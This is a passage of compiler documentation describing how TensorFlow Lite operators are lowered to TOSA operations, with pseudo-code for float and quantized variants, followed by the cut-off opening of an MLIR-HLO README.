If input/output tensors are all non-quantized typed,

Prepare:

```
// input[N, IC] x filter[OC, IC] + bias[OC] -> output[N, OC]
auto input_reshape_shape = {%input.num_elements / %filter.shape[1], %filter.shape[1]}
```

Legalization:

```
if(!(%bias)) {
    %bias_val = tosa.CONST() {value={0} * %filter.shape[3]}
}
else {
    %bias_val = %bias
}
if(%input.rank != 2) {
    %input_val = tosa.RESHAPE(%input) {shape=input_reshape_shape}
}
else {
    %input_val = %input
}
%fc = tosa.FULLY_CONNECTED(%input_val, %filter, %bias_val)
if(fused_activation != NONE) {
    %result = convert_fused_activation(%fc, fused_activation_function)
}
else {
    %result = %fc
}
```

If input/output tensors are all quantized typed,

Prepare:

```
auto input_reshape_shape = {%input.num_elements / %filter.shape[1], %filter.shape[1]}
float64 output_rescale_scale = (%input.scale * %filter.scale) / %output.scale
```

Legalization:

```
if(!(%bias)) {
    %bias_val = tosa.CONST() {value={0} * %filter.shape[3]}
}
else {
    %bias_val = %bias
}
if(%input.rank != 2) {
    %input_val = tosa.RESHAPE(%input) {shape=input_reshape_shape}
}
else {
    %input_val = %input
}
%fc = tosa.FULLY_CONNECTED(%input_val, %filter, %bias_val)
%rescale = tosa.RESCALE(%fc) {scale=output_rescale_scale, input_zp=0, output_zp=%output.zp} // %fc.dtype->%output.dtype
if(fused_activation != NONE) {
    %result = convert_fused_activation(%rescale, fused_activation_function)
}
else {
    %result = %rescale
}
```

### tfl.gather_nd

Gather_nd operator.

**TensorFlow Dialect**

```
%output = tfl.gather_nd(%params, %indices)
```

**TOSA Lowering**

```
%output = lower_gather_nd_op(%params, %indicies)
```

### tfl.gather

Gather operator.

**TensorFlow Dialect**

```
%output = tfl.gather(%params, %indices) {axis}
```

**TOSA Lowering**

```
%output = lower_gather_op(%params, %indicies, 0, axis)
```

### tfl.greater_equal

This operator is trivially lowered to tosa.GREATER_EQUAL

### tfl.greater

This operator is trivially lowered to tosa.GREATER

### tfl.hard_swish

Hardswish activation function.

**TensorFlow Lite Dialect**

```
%output = tfl.hard_swish(%input)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%const_3 = tosa.CONST() {value={3.0}}
%const_rcp6 = tosa.CONST() {value={1.0 / 6.0}}
%op1_add_in_3 = tosa.ADD(%input, %const_3)
%op2_relun_op1 = tosa.RELUN(%op1_add_in_3) {max=6.0}
%op3_mul_in_op2 = tosa.MUL(%input, %op2_relun_op1)
%op4_mul_op3_rcp6 = tosa.MUL(%op3, %const_rcp6)
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 input_sample_grain = 1.0 / 64.0
auto hardswish_func = [input_sample_grain](int32 x) -> int32 {
    float64 v = (float64)x * input_sample_grain
    float64 w = v + 3.0
    w = (w < 0.0) ? 0.0 : ((w > 6.0) ? 6.0 : w)
    v = (v * w) / 6.0
    return std::lround(32768.0 * v)
}
float64 input_rescale_scale = (%input.scale * 128.0) / input_sample_grain
float64 output_rescale_scale = 1.0 / (128.0 * 32768.0 * %output.scale)
int32 quantized_3 = (int32)(std::ceil(3.0 / %input.scale)) + %input.zp
```

Legalization:

```
%table_const = get_table_const_tensor(hardswish_func)
%const_3 = tosa.CONST() {value={quantized_3}}
%op1_rescale_in = tosa.RESCALE(%input) {scale=input_rescale_scale, input_zp=%input.zp, output_zp=0} // %input.dtype->i16
%op2_table_op1 = tosa.TABLE(%op1_rescale_in, %table_const)
%op3_rescale_op2 = tosa.RESCALE(%op2_table_op1) {scale=output_rescale_scale, input_zp=0, output_zp=%output.zp} // i32->%output.dtype
%op4_rescale_in = tosa.RESCALE(%input {scale=1.0, input_zp=0, output_zp=0} // %input.dtype->i32
%op5_ge_op4 = tosa.GREATER_EQUAL(%op4_rescale_in, %const_3)
%op6_select_op5_in_op3 = tosa.SELECT(%op5_ge_op4, %input, %op3_rescale_op2)
```

### tfl.l2_normalization

No TOSA lowering defined.

### tfl.lstm

No TOSA lowering defined.

### tfl.leaky_relu

Leaky Relu Operator.

**TensorFlow Lite Dialect**

```
%output = tfl.leaky_relu(%input) {alpha}
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%const_0 = tosa.CONST() {value={0.0}}
%const_alpha = tosa.CONST() {value={alpha}}
%op1_mul_in_alpha = tosa.MUL(%input, %const_alpha)
%op2_ge_in_0 = tosa.GREATER_EQUAL(%input, %const_0)
%op3_select_op2_in_op1 = tosa.SELECT(%op2_ge_in_0, %input, $op1_mul_in_alpha)
```

If input/output tensors are all quantized typed,

Prepare:

```
float32 scaled_alpha = (%input.scale * alpha) / %output.scale
float32 scaled_identity = %input.scale / %output.scale
```

Legalization:

```
%const_0 = tosa.CONST() {value={0}}
%op1_rescale_in = tosa.RESCALE(%input) {scale=1.0, input_zp=%input.zp} // %input.dtype->i32
%op2_ge_in_0 = tosa.GREATER_EQUAL(%input, %const_0)
%op3_rescale_in_alpha = tosa.RESCALE(%input) {scale=scaled_alpha, input_zp=%input.zp, output_zp=%output_zp} // %input.dtype->%output.dtype
%op4_rescale_in_identity = tosa.RESCALE(%input) {scale=scaled_identity, input_zp=%input.zp, output_zp=%output_zp} // %input.dtype->%output.dtype
%op5_select_op2_op3_op4 = tosa.SELECT(%op2_ge_in_0, %op4_rescale_in_identity, %op3_rescale_in_alpha)
```

### tfl.less_equal

Less_equal operator.

**TensorFlow Lite Dialect**

```
%output = tfl.less_equal(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_greater_lhs_rhs = tosa.GREATER(%lhs, %rhs)
%op2_not_op1 = tosa.LOGICAL_NOT(%op1_greater_lhs_rhs)
```

If input/output tensors are all quantized typed,

Legalization:

```
assert (%lhs.scale == %rhs.scale) && (%lhs.zp == %rhs.zp)

%op1_rescale_lhs = tosa.RESCALE(%lhs) {scale=1.0, input_zp=%lhs.zp, output_zp=0} // %lhs.dtype->i32
%op2_rescale_rhs = tosa.RESCALE(%rhs) {scale=1.0, input_zp=%rhs.zp, output_zp=0} // %rhs.dtype->i32
%op3_greater_op1_op2 = tosa.GREATER(%op1_rescale_lhs, %op2_rescale_rhs)
%op4_not_op3 = tosa.LOGICAL_NOT(%op3_greater_op1_op2)
```

### tfl.less

Less operator.

**TensorFlow Lite Dialect**

```
%output = tfl.less(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_ge_lhs_rhs = tosa.GREATER_EQUAL(%lhs, %rhs)
%op2_not_op1 = tosa.LOGICAL_NOT(%op1_ge_lhs_rhs)
```

If input/output tensors are all quantized typed,

Legalization:

```
assert (%lhs.scale == %rhs.scale) && (%lhs.zp == %rhs.zp)

%op1_rescale_lhs = tosa.RESCALE(%lhs) {scale=1.0, input_zp=%lhs.zp, output_zp=0} // %lhs.dtype->i32
%op2_rescale_rhs = tosa.RESCALE(%rhs) {scale=1.0, input_zp=%rhs.zp, output_zp=0} // %rhs.dtype->i32
%op3_ge_op1_op2 = tosa.GREATER_EQUAL(%op1_rescale_lhs, %op2_rescale_rhs)
%op4_not_op3 = tosa.LOGICAL_NOT(%op3_ge_op1_op2)
```

### tfl.local_response_normalization

No TOSA lowering defined.

### tfl.log

No TOSA lowering defined.

### tfl.log_softmax

Log softmax operator.

**TensorFlow Lite Dialect**

```
%output = tfl.log_softmax(%input)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%output = lower_log_softmax_op(%logits)
```

No TOSA lowering defined if input/output tensors are all quantized typed.

### tfl.logical_and

This operator is trivially lowered to tosa.LOGICAL_AND

### tfl.logical_not

This operator is trivially lowered to tosa.LOGICAL_NOT

### tfl.logical_or

This operator is trivially lowered to tosa.LOGICAL_OR

### tfl.logistic

Logistic operator.

**TensorFlow Lite Dialect**

```
%y = tfl.logistic(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_sigmoid_in = tosa.SIGMOID(%x)
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 input_sample_grain = 1.0 / 16.0
auto sigmoid_func = [input_sample_grain](int32 x) -> int32 {
  float64 v = static_cast<float64>(x) * input_sample_grain
  v = 1.0 / (1.0 + std::exp(-v))
  return std::lround(32768.0 * v)
}

float32 input_rescale_scale = (%x.scale * 128.0) / input_sample_grain
float32 output_rescale_scale = 1.0 / (%y.scale * 32768.0 * 128.0);
```

Legalization:

```
%table_const = get_table_const_tensor(sigmoid_func)
%op1_rescale_in = tosa.RESCALE(%x) {scale=input_rescale_scale, input_zp=%x.zp, output_zp=0} // %x.dtype->i16
%op2_table_op1 = tosa.TABLE(%op1_rescale_in, %table_const)
%op3_rescale_op2 = tosa.RESCALE(%op2_table_op1) {scale=output_rescale_scale, input_zp=0, output_zp=%y.zp} // %int32->%y.dtype
```

### tfl.matrix_diag

No TOSA lowering defined.

### tfl.matrix_set_diag

No TOSA lowering defined.

### tfl.max_pool_2d

Max Pool 2d op.

**TensorFlow Lite Dialect**

```
%output = tfl.max_pool_2d(%input) {filter_height, filter_width, padding, stride_h, stride_w, fused_activation_function}
```

**TOSA Lowering**

Prepare:

```
tosa_padding =
     get_padding_values_from_pad_type(padding, NHWC, 1,
                                      %input.type, tensor<{filter_height, filter_width}, tosa.int32>,
                                      {1, stride_h, stride_w, 1}, {1, 1, 1, 1})
```

If input/output tensors are all non-quantized typed,

Legalization:

```
%maxpool2d = tosa.MAX_POOL2D(%input) {kernel={filter_height, filter_width}, stride={stride_h, stride_w}, padding=tosa_padding}
if(fused_activation != NONE) {
    %result = convert_fused_activation(%maxpool2d, fused_activation)
}
else {
    %result = %maxpool2d
}
```

If input/output tensors are all quantized typed,

Legalization:

```
%maxpool2d = tosa.MAX_POOL2D(%input) {kernel={filter_height, filter_width}, stride={stride_h, stride_w}, padding=tosa_padding, quantization_info={input_zp=%input.zp, output_zp=%output.zp}}
if(fused_activation != NONE) {
    %result = convert_fused_activation(%maxpool2d, fused_activation)
}
else {
    %result = %maxpool2d
}
```

### tfl.max_pooling_with_argmax_2d

No TOSA lowering defined.

### tfl.max_unpooling_2d

No TOSA lowering defined.

### tfl.maximum

This operator is trivially lowered to tosa.MAXIMUM

### tfl.mean

Mean operator.

**TensorFlow Lite Dialect**

```
%output = tfl.mean(%input, %axis) {keep_dims}
```

**TOSA Lowering**

Prepare:

```
int32 num_elements_on_axis = 1
for (int32 axis : %reduction_indices) {
    num_elements_on_axis *= %input.shape[axis]
}
float32 div_scale = 1.0 / num_elements_on_axis
```

If input/output tensors are all non-quantized typed,

Legalization:

```
%cst_div_scale = tosa.CONST() {value={div_scale}}
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_SUM>(%input, %output.shape, %axis, keep_dims)
%op2_mul_op1 = tosa.MUL(%op1_rsum_in, %cst_div_scale)
```

If input/output tensors are all quantized typed,

Legalization:

```
%rsum = lower_reduce_op<tosa.REDUCE_SUM>(%op1_rescale_in, %output.shape, %reduction_indicies, keep_dims, 1.0f, %input_zp, div_scale * %input.scale / %output.scale, %output.zp)
```

### tfl.minimum

This operator is trivially lowered to tosa.MINIMUM

### tfl.mirror_pad

No TOSA lowering defined.

### tfl.mul

Mul operator.

**TensorFlow Lite Dialect**

```
%output = tfl.mul(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_mul_in = tosa.MUL(%lhs, %rhs)
```

If input/output tensors are all quantized typed,

Legalization:

```
%op1_rescale_lhs = tosa.RESCALE(%lhs) {scale=1.0f, input_zp=%lhs.zp, output_zp=0} // %lhs.dtype->i32
%op2_rescale_rhs = tosa.RESCALE(%rhs) {scale=1.0f, input_zp=%rhs.zp, output_zp=0} // %rhs.dtype->i32
%op3_mul_op1_op2 = tosa.MUL(%op1_rescale_lhs, %op2_rescale_rhs)
%op4_rescale_op3 = tosa.RESCALE(%op3_mul_op1_op2) {scale=%lhs.scale * %rhs.scale / %output.scale, input_zp=0, output_zp=%output.zp} // i32->%output.dtype
```

### tfl.neg

This operator is trivially lowered to tosa.NEGATE

### tfl.non_max_suppression_v4

No TOSA lowering defined.

### tfl.non_max_suppression_v5

No TOSA lowering defined.

### tfl.not_equal

Not_equal operator.

**TensorFlow Lite Dialect**

```
%output = tfl.not_equal(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_equal_lhs_rhs = tosa.EQUAL(%lhs, %rhs)
%op2_not_op1 = tosa.LOGICAL_NOT(%op1_equal_lhs_rhs)
```

If input/output tensors are all quantized typed,

Legalization:

```
assert (%lhs.scale == %rhs.scale) && (%lhs.zp == %rhs.zp)

%op1_rescale_lhs = tosa.RESCALE(%lhs) {scale=1.0f, input_zp=%lhs.zp, output_zp=0} // %lhs.dtype->i32
%op2_rescale_rhs = tosa.RESCALE(%rhs) {scale=1.0f, input_zp=%rhs.zp, output_zp=0} // %rhs.dtype->i32
%op3_equal_op1_op2 = tosa.EQUAL(%op1_rescale_lhs, %op2_rescale_rhs)
%op4_not_op3 = tosa.LOGICAL_NOT(%op3_equal_op1_op2) // i32->%output.dtype
```

### tfl.NumericVerify

No TOSA lowering defined.

### tfl.one_hot

OneHot operator.

**TensorFlow Lite Dialect**

```
%output = tfl.one_hot(%indices, %depth, %on_value, %off_value) {axis}
```

**TOSA Lowering**

```
%output = lower_one_hot_op(%indices, %depth, %on_value, %off_value, axis)
```

### tfl.prelu

No TOSA lowering defined.

### tfl.pack

Packs a list of tensors along a dimension into one tensor.

**TensorFlow Dialect**

```
%output = tf.pack(%values) {axis}
```

**TOSA Lowering**

```
%output = lower_pack_op(%values, axis)
```

### tfl.pad

This operator is trivially lowered to tosa.PAD

### tfl.padv2

No TOSA lowering defined.

### tfl.pow

No TOSA lowering defined.

### tfl.pseudo_qconst

This operator is trivially lowered to tosa.CONST

### tfl.quantize

Quantize operator

**TensorFlow Lite Dialect**

```
%output = tfl.quantize(%input)
```

**TOSA Lowering**

Legalization:

```
if (isa<QuantizedType>(%input.dtype)) {
    %op1_rescale_in = tosa.RESCALE(%input) {scale=%input.scale / %output.scale, input_zp=%input.zp, output_zp=%output.zp}
}
else {
    %output = lower_quantize_op(%output.dtype, %input, %output.zp, %output.scale)
}
```

### tfl.range

No TOSA lowering defined.

### tfl.rank

Rank operator

**TensorFlow Lite Dialect**

```
%output = tfl.rank(%input)
```

**TOSA Lowering**

Legalization:

```
%const = tosa.CONST() {value={%input.rank}}
```

### tfl.reduce_any

Computes the "logical or" of elements across dimensions of a tensor.

**TensorFlow Lite Dialect**

```
%output = tfl.reduce_any(%input, %reduction_indices) {keep_dims}
```

**TOSA Lowering**

Legalization:

```
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_ANY>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tfl.reduce_max

Max-reduction operator.

**TensorFlow Lite Dialect**

```
%output = tfl.reduce_max(%input, %axes) {keep_dims}
```

**TOSA Lowering**

Legalization:

```
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_MAX>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tfl.reduce_min

Computes the min reduction along the specified axes.

**TensorFlow Lite Dialect**

```
%output = tfl.reduce_min(%input, %axes) {keep_dims}
```

**TOSA Lowering**

Legalization:

```
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_MIN>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tfl.reduce_prod

Prod-reduction operator.

**TensorFlow Lite Dialect**

```
%output = tfl.reduce_prod(%input, %axes) {keep_dims}
```

**TOSA Lowering**

If input/output tensors are all float typed,

Legalization:

```
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_PROD>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tfl.relu_n1_to_1

No TOSA lowering defined.

### tfl.relu6

Relu6 operator.

**TensorFlow Lite Dialect**

```
%y = tfl.relu6(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_relun_in = tosa.RELUN(%input) {max_int=0, max_fp=6.0}
```

If input/output tensors are all quantized typed,

Legalization:

```
%op1_rescale_in = tosa.RESCALE(%lhs) {scale=%x.scale / %y.scale, input_zp=%x.zp, output_zp=0} // %x.dtype->i32
%op2_relun_op1 = tosa.RELUN(%op1_rescale_in) {max_int=(6.0 / %y.scale), max_fp=0.0}
%op3_rescale_op2 = tosa.RESCALE(%op2_relun_op1) {scale=1.0, input_zp=0, output_zp=%y.zp // i32->%y.dtype
```

### tfl.relu

Relu operator.

**TensorFlow Lite Dialect**

```
%y = tfl.relu(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_relun_in = tosa.RELUN(%input) {max_int=0, max_fp=std::numeric_limits<float>::max()}
```

If input/output tensors are all quantized typed,

Legalization:

```
%op1_rescale_in = tosa.RESCALE(%lhs) {scale=%x.scale / %y.scale, input_zp=%x.zp, output_zp=0} // %x.dtype->i32
%op2_relun_op1 = tosa.RELUN(%op1_rescale_in) {max_int=std::numeric_limits<int32>::max(), max_fp=0.0}
%op3_rescale_op2 = tosa.RESCALE(%op2_relun_op1) {scale=1.0, input_zp=0, output_zp=%y.zp // i32->%y.dtype
```

### tfl.reshape

This operator is trivially lowered to tosa.RESHAPE

### tfl.resize_bilinear

ResizeBilinear Op.

**TensorFlow Lite Dialect**

```
%output = tfl.resize_bilinear(%input, %size) {aligned_corners, half_pixel_centers}
```

**TOSA Lowering**

```
%output = lower_resize_op(%input, %size, %input.dtype, "BILINEAR")
```

### tfl.resize_nearest_neighbor

ResizeBilinear Op.

**TensorFlow Lite Dialect**

```
%output = tfl.resize_bilinear(%input, %size) {aligned_corners, half_pixel_centers}
```

**TOSA Lowering**

```
%output = lower_resize_op(%input, %size, %input.dtype, "NEAREST_NEIGHBOR")
```

### tfl.reverse_sequence

No TOSA lowering defined.

### tfl.reverse_v2

ReverseV2 Operator.

**TensorFlow Lite Dialect**

```
%output = tfl.reverse_v2(%input, %axis)
```

**TOSA Lowering**

```
%output = lower_reversev2_op(%tensor, %axis)
```

### tfl.round

Round operator.

**TensorFlow Lite Dialect**

```
%output = tfl.round(%input)
```

**TOSA Lowering**

```
%const_half = tosa.CONST() {value={0.5}}
%op1_add_in_half = tosa.ADD(%input, %const_half)
%op2_floor_op1 = tosa.FLOOR(%op1_add_in_half)
```

### tfl.rsqrt

No TOSA lowering defined.

### tfl.svdf

No TOSA lowering defined.

### tfl.segment_sum

No TOSA lowering defined.

### tfl.select

This operator is trivially lowered to tosa.SELECT

### tfl.select_v2

This operator is trivially lowered to tosa.SELECT

### tfl.shape

Shape operator

**TensorFlow Lite Dialect**

```
%output = tfl.shape(%input)
```

**TOSA Lowering**

Legalization:

```
%const = tosa.CONST() {value=%input.shape}
```

### tfl.sin

No TOSA lowering defined.

### tfl.slice

This operator is trivially lowered to tosa.SLICE

### tfl.softmax

Softmax operator.

**TensorFlow Lite Dialect**

```
%output = tfl.softmax(%input)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_exp_in = tosa.EXP(%input)
%op2_rsum_op1 = tosa.REDUCE_SUM(%op1_exp_in) {axis=(%input.rank-1)}
%op3_rcp_op2 = tosa.RECIPROCAL(%op2)
%op4_mul_op1_op3 = tosa.MUL(%op1, %op3)
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 exp_sample_grain = 1.0 / 16.0
auto exp_func = [exp_sample_grain](int32 x) -> int32 {
  double v = static_cast<float64>(x) * exp_sample_grain
  v = v < 0.0 ? std::exp(v) : 1.0
  return std::lround(32768.0 * v)
}

float64 one_over_one_plus_x_sample_grain = 1.0 / 256.0
auto one_over_one_plus_x_func = [one_over_one_plus_x_sample_grain](int32 x) -> int32 {
  double v = static_cast<float64>(x) * one_over_one_plus_x_sample_grain
  v = v < 0.0 ? 1.0 : 1.0 / (1.0 + v)
  return std::lround(32768.0 * v)
}

float64 op4_rescale_scale = (%input.scale * 128.0) / exp_sample_grain
float64 op19_rescale_scale = 1.0 / (%output.scale * 256.0)
```

Legalization:

```
%const_exp_table = get_table_const_tensor(exp_func)
%const_one_over_one_plus_x_table = get_table_const_tensor(one_over_one_plus_x_func)
%const_3 = tosa.CONST() {value={3}}
%const_34 = tosa.CONST() {value={12+20-8}}
%const_2_to_31 = tosa.CONST() {value={1<<31}}
%const_16 = tosa.CONST() {value={16}}

%op1_rescale_in = tosa.RESCALE(%lhs) {scale=1.0f, input_zp=%x.zp, output_zp=0} // %x.dtype->i32
%op2_rmax_op1 = tosa.REDUCE_MAX(%op1_rescale_in) {axis=(%input.rank-1)}
%op3_sub_op1_op2 = tosa.SUB(%op1_rescale_in, %op2_relun_op1)
%op4_rescale_op3 = tosa.RESCALE(%op3_sub_op1_op2) {scale=op4_rescale_scale, input_zp=0, output_zp=0} // i32->i16
%op5_table_op4 = tosa.TABLE(%op4_rescale_op3, %const_exp_table)
%op6_rshift_op5_3 = tosa.ARITHMETIC_RIGHT_SHIFT(%op5_table_op4, %const_3)
%op7_rsum_op6 = tosa.REDUCE_SUM(%op6_rshift_op5_3) {axis=(%input.rank-1)}
%op8_clz_op7 = tosa.CLZ(%op7_rsum_op6)
%op9_sub_34_op8 = tosa.SUB(%const_34, %op8_clz_op7)
%op10_lshift_op7_op8 = tosa.LOGICAL_LEFT_SHIFT(%op7_rsum_op6, %op8_clz_op7)
%op11_sub_op10 = tosa.SUB(%op10_lshift_op7_op8, %const_2_to_31)
%op12_rshift_op11_16 = tosa.ARITHMETIC_RIGHT_SHIFT(%op11_sub_op10, %const_16)
%op13_cast_op12 = tosa.CAST(%op12_rshift_op11_16) // i32->i16
%op14_table_op13 = tosa.TABLE(%op13_cast_op12, %const_one_over_one_plus_x_table)
%op15_rescale_op14 = tosa.RESCALE(%op14_table_op13) {scale=1.0/128.0, input_zp=0, output_zp=0} // i32->i16
%op16_rescale_op5 = tosa.RESCALE(%op5_table_op4) {scale=1.0/128.0, input_zp=0, output_zp=0} // i32->i16
%op17_mul_op16_op15 = tosa.MUL(%op15_rescale_op14, %op16_rescale_op5)
%op18_rshift_op17_op9 = tosa.ARITHMETIC_RIGHT_SHIFT(%op17_mul_op16_op15, %op9_sub_34_op8)
%op19_rescale_op18 = tosa.RESCALE(%op18_rshift_op17_op9) {scale=op19_rescale_scale, input_zp=0, output_zp=%output.zp}
```

### tfl.space_to_batch_nd

SpaceToBatchNd operator.

**TensorFlow Dialect**

```
%output = tfl.space_to_batch_nd(%input, %block_shape, %paddings)
```

**TOSA Lowering**

```
%output = lower_space_to_batch_nd_op(%input, %block_shape, %paddings)
```

### tfl.space_to_depth

SpaceToDepth operator.

**TensorFlow Dialect**

```
%output = tfl.space_to_depth(%input) {block_size}
```

**TOSA Lowering**

```
%output = lower_space_to_depth_op(%input, block_size, "NHWC")
```

### tfl.pseudo_sparse_const

No TOSA lowering defined.

### tfl.pseudo_sparse_qconst

No TOSA lowering defined.

### tfl.sparse_to_dense

No TOSA lowering defined.

### tfl.split

Splits a tensor into num_split tensors along one dimension.

**TensorFlow Dialect**

```
%output = tfl.split(%split_dim, %value) {num_split}
```

**TOSA Lowering**

```
%output = lower_split_op(%value, %split_dim.as_constant(), num_split)
```

### tfl.split_v

Splits a tensor into num_split tensors along one dimension.

**TensorFlow Dialect**

```
%output = tfl.split_v(%value, %size_splits, %split_dim) {num_splits}
```

**TOSA Lowering**

```
%output = lower_splitv_op(%value, %size_splits.as_constant(), %split_dim.as_constant())
```

### tfl.sqrt

No TOSA lowering defined.

### tfl.square

Square operator.

**TensorFlow Lite Dialect**

```
%y = tfl.square(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_mul_in = tosa.MUL(%x, %x)
```

If input/output tensors are all quantized typed,

Legalization:

```
%op1_rescale_x = tosa.RESCALE(%x) {scale=1.0f, input_zp=%x.zp, output_zp=0} // %x.dtype->i32
%op2_mul_op1_op1 = tosa.MUL(%op1_rescale_x, %op1_rescale_x)
%op3_rescale_op2 = tosa.RESCALE(%op2_mul_op1_op1) {scale=%(x.scale * %x.scale) / %output.scale, input_zp=0, output_zp=%y.zp} // i32->%y.dtype
```

### tfl.squared_difference

Squared difference operator.

**TensorFlow Lite Dialect**

```
%output = tfl.squared_difference(%lhs, %rhs)
```

**TOSA Lowering**

Legalization:

```
%op1_sub_in = tosa.SUB(%lhs, %rhs)
%op2_mul_op1 = tosa.MUL(%op1_sub_in, %op1_sub_in)
```

### tfl.squeeze

Removes dimensions of size 1 from the shape of a tensor.

**TensorFlow Dialect**

```
%output = tfl.squeeze(%input) {squeeze_dims}
```

**TOSA Lowering**

```
%output = lower_squeeze_op(%input, squeeze_dims)
```

### tfl.strided_slice

StridedSlice Op.

**TensorFlow Dialect**

```
%output = tfl.strided_slice(%input, %begin, %end, %strides) {begin_mask, end_mask, ellipsis_mask, new_axis_mask, shrink_axis_mask}
```

**TOSA Lowering**

```
%output = lower_strided_slice_op(%input, %begin, %end, %strides, begin_mask, end_mask, ellipsis_mask, new_axis_mask, shrink_axis_mask)
```

### tfl.sub

This operator is trivially lowered to tosa.SUB

### tfl.sum

Sum operator.

**TensorFlow Lite Dialect**

```
%output = tfl.sum(%input, %axis) {keep_dims}
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_SUM>(%input, %output.shape, %axis, keep_dims)
```

If input/output tensors are all quantized typed,

Legalization:

```
%rsum = lower_reduce_op<tosa.REDUCE_SUM>(%op1_rescale_in, %output.shape, %reduction_indicies, keep_dims, 1.0f, %input_zp, (%input.scale / %output.scale), %output.zp)
```

### tfl.tanh

Hyperbolic tangent operator.

**TensorFlow Lite Dialect**

```
%y = tfl.tanh(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%op1_tanh_in = tosa.TANH(%x)
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 input_sample_grain = 1.0 / 32.0
auto tanh_func = [input_sample_grain](int32 x) -> int32 {
  float64 v = static_cast<float64>(x) * input_sample_grain
  v = std::exp(-2.0 * v)
  v = (1.0 - v) / (1.0 + v)
  return std::lround(32768.0 * v)
}

float32 input_rescale_scale = (%x.scale * 128.0) / input_sample_grain
float32 output_rescale_scale = 1.0 / (%y.scale * 32768.0 * 128.0);
```

Legalization:

```
%table_const = get_table_const_tensor(tanh_func)
%op1_rescale_in = tosa.RESCALE(%x) {scale=input_rescale_scale, input_zp=%x.zp, output_zp=0} // %x.dtype->i16
%op2_table_op1 = tosa.TABLE(%op1_rescale_in, %table_const)
%op3_rescale_op2 = tosa.RESCALE(%op2_table_op1) {scale=output_rescale_scale, input_zp=0, output_zp=%y.zp} // %int32->%y.dtype
```

### tfl.tile

This operator is trivially lowered to tosa.TILE

### tfl.topk_v2

No TOSA lowering defined.

### tfl.transpose_conv

Transpose convolution operator.

**TensorFlow Lite Dialect**

```
%output = tfl.transpose_conv(%output_shape, %weights, %input) {padding, stride_h, stride_w}
```

**TOSA Lowering**

Prepare:

```
tosa_padding =
    get_transpose_conv2d_padding_values_from_pad_type(%input.type, %weights.type, %output_shape, padding, "NHWC", FORMAT_HWIO, {stride_h, stride_w}, {1, 1})
```

If input/output tensors are all non-quantized typed,

Legalization:

```
%bias = tosa.CONST() {value={0.0} * %output.shape[3]}
%conv2d = tosa.TRANSPOSE_CONV2D(%input, %weight, %bias) {padding=tosa_padding, stride={stride_h, stride_w}, dilation={1, 1}}
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 output_rescale_scale = (%input.scale * %weights.scale) / %output.scale
```

Legalization:

```
%bias = tosa.CONST() {value={0} * %output.shape[3]}
%conv2d = tosa.TRANSPOSE_CONV2D(%input, %weight, %bias) {padding=tosa_padding, stride={stride_h, stride_w}, dilation={1, 1}}
%rescale = tosa.RESCALE(%conv2d) {scale=output_rescale_scale, input_zp=0, output_zp=%output.zp} // %conv2d.dtype->%output.dtype
```

### tfl.transpose

This operator is trivially lowered to tosa.TRANSPOSE

### tfl.unidirectional_sequence_lstm

No TOSA lowering defined.

### tfl.unidirectional_sequence_rnn

No TOSA lowering defined.

### tfl.unique

No TOSA lowering defined.

### tfl.unpack

Unpacks a tensor along a dimension into multiple tensors.

**TensorFlow Dialect**

```
%output = tfl.unpack(%input) {num, axis}
```

**TOSA Lowering**

```
%output = lower_unpack_op(%input, axis, num)
```

### tfl.where

No TOSA lowering defined.

### tfl.while

No TOSA lowering defined.

### tfl.yield

This operator is trivially lowered to tosa.YIELD

### tfl.zeros_like

ZerosLike operator.

**TensorFlow Dialect**

```
%output = tfl.zeros_like(%input)
```

**TOSA Lowering**

```
%output = tosa.CONST() {value={0} * %input.num_elements}
```

## fuse_tf_bias

Legalize (tf.Conv2D + tf.BiasAdd) to tosa.CONV2D. This is currently the only N:1
mapping in TOSA legalization.

From:

```
%conv2d = tf.Conv2D(%input, %filter) {...}
%bias_add = tf.BiasAdd(%conv2d, %bias)
```

To:

```
%conv2d = tosa.CONV2D(%input, %filter, %bias)
```

## convert_tfl_uint8

This pass does three things:

1.  Convert const from quantized uint8 to quantized int8, with value within
    remapped as well.
2.  If input placeholders is quantized uint8 typed, insert "tosa.RESCALE()
    {scale=1.0, input_zp=input_zp, output_zp=input_zp-128} // qu8->qi8" in
    between
3.  If output tensor is quantized uint8 typed, insert "tosa.RESCALE()
    {scale=1.0, input_zp=output_zp+128, output_zp=output_zp} // qi8->qu8" in
    between
# MLIR-HLO: A Standalone "HLO" MLIR-based Compiler

The code here exists in two places:

*   https://github.com/tensorflow/tensorflow/tree/master/tensorflow/compiler/mlir/hlo;
    this is the canonical location and where contributions should be made using
    GitHub pull-requests.
*   https://github.com/tensorflow/mlir-hlo; this is a standalone repository with
